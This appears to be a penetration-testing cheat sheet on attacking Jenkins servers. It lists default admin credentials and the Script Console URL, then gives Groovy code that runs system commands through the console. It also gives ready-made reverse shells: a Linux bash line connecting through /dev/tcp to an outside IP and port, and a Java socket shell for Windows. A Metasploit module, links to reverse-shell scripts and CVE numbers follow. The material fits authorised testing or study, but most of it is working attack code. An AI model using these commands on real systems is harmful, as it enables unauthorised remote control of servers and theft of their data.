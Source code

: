 # jenkins
## info
Jenkins runs on Tomcat port 8080 by default. It also utilizes port 5000 to attach slave servers.  
## default credentials
admin:admin  
(nothing):(nothing)  
## rce via Script Console
### script console url
http://10.10.10.1:8000/script
### rce sample code
def cmd = 'id'  
def sout = new StringBuffer(), serr = new StringBuffer()  
def proc = cmd.execute()  
proc.consumeProcessOutput(sout, serr)  
proc.waitForOrKill(1000)  
println sout  
## reverse shell via script console
### manually on linux
r = Runtime.getRuntime()  
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])  
p.waitFor()  
### manually on windows
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
### manually on windows powershell script
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
### metasploit
msf> exploit/multi/http/jenkins_script_console/
## other usefull links
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy
## usefull vulnerabilites
CVE-2018-1999002  
CVE-2019-1003000  
